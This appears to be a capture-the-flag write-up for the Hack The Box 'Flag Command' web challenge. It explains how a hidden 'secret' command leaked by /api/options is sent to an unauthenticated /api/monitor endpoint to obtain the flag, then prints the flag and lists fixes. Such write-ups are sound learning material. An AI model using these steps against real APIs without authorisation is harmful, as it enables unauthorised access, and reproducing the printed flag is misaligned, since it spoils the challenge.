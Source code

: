 # Flag Command 

Solution for the [Flag Command](https://app.hackthebox.com/challenges/Flag%20Command/walkthroughs) web challenge.

## Methodology

1. **Initial Reconnaissance**:
   - Navigated to the target URL provided by the challenge
   - Inspected the page source for any clues or hidden content
   - Found there are multiple JS files in the `<script>` tags under `/static/terminal/js` and started inspecting them
   - Noticed the `main.js` file was making api calls to `api/options` and `api/monitor`
   - Made a request to `/api/options` and got a list of options. 
        ```json
        {
        "allPossibleCommands": {
            "1": [
                "HEAD NORTH",
                "HEAD WEST",
                "HEAD EAST",
                "HEAD SOUTH"
            ],
            "2": [
                "GO DEEPER INTO THE FOREST",
                "FOLLOW A MYSTERIOUS PATH",
                "CLIMB A TREE",
                "TURN BACK"
            ],
            "3": [
                "EXPLORE A CAVE",
                "CROSS A RICKETY BRIDGE",
                "FOLLOW A GLOWING BUTTERFLY",
                "SET UP CAMP"
            ],
            "4": [
                "ENTER A MAGICAL PORTAL",
                "SWIM ACROSS A MYSTERIOUS LAKE",
                "FOLLOW A SINGING SQUIRREL",
                "BUILD A RAFT AND SAIL DOWNSTREAM"
            ],
            "secret": [
                "Blip-blop, in a pickle with a hiccup! Shmiggity-shmack"
            ]
            }
        }
        ```
   - Noticed there was list of lists of commands in the response and there was a `secret` command in the list. 

2. **Exploitation**:
    - Copied the `secret` command and made a request to `/api/monitor` with the following JSON:
        ```json
        {
            "command": "Blip-blop, in a pickle with a hiccup! Shmiggity-shmack"
        }
        ```
    - Got the flag in the response
        ```json
        {
            "message": "HTB{D3v3l0p3r_t00l5_4r3_b35t__t0015_wh4t_d0_y0u_Th1nk??}"
        }
        ```
3. **Proof of Concept**:
    - [main.go](main.go) is a proof of concept that makes the request to `/api/monitor` with the `secret` command and prints the flag.

## Impact
* An unauthenticated attacker can access sensitive API endpoints (`/api/options` and `/api/monitor`)
* The API reveals "secret" commands that appear to be intended to be hidden
* The API allows execution of these commands without any authentication or authorization checks
* The endpoint returns sensitive data (the flag in this case, but in a real system this could be other confidential information)

### Severity: MEDIUM to HIGH

### Reasons:
1. Authentication Bypass: The complete lack of authentication controls is a significant security issue
2. Information Disclosure: The API openly reveals internal commands and sensitive data
3. No Rate Limiting: There appears to be no protection against automated requests/brute force attempts

### Mitigating Factors:
This appears to be a CTF challenge, so the actual data exposed is just the challenge flag
The endpoint seems to only return predefined responses rather than allowing arbitrary command execution

### Real-World Implications:
If this were a real production API:
* Attackers could enumerate valid commands and potentially access sensitive functionality
* The lack of authentication could lead to unauthorized access to protected resources
* The API design violates basic security principles like "authentication before authorization"

### Recommended Fixes:
* Implement proper authentication (e.g., JWT, session tokens)
* Add authorization checks for sensitive endpoints
* Implement rate limiting
* Remove exposure of secret commands in the options endpoint
* Add API versioning and proper input validation

This type of vulnerability would typically be classified as CWE-306 (Missing Authentication for Critical Function) and could be considered OWASP API Security Top 10 2023 - API1:2023 Broken Object Level Authorization.

## Flag

```
HTB{D3v3l0p3r_t00l5_4r3_b35t__t0015_wh4t_d0_y0u_Th1nk??}
```
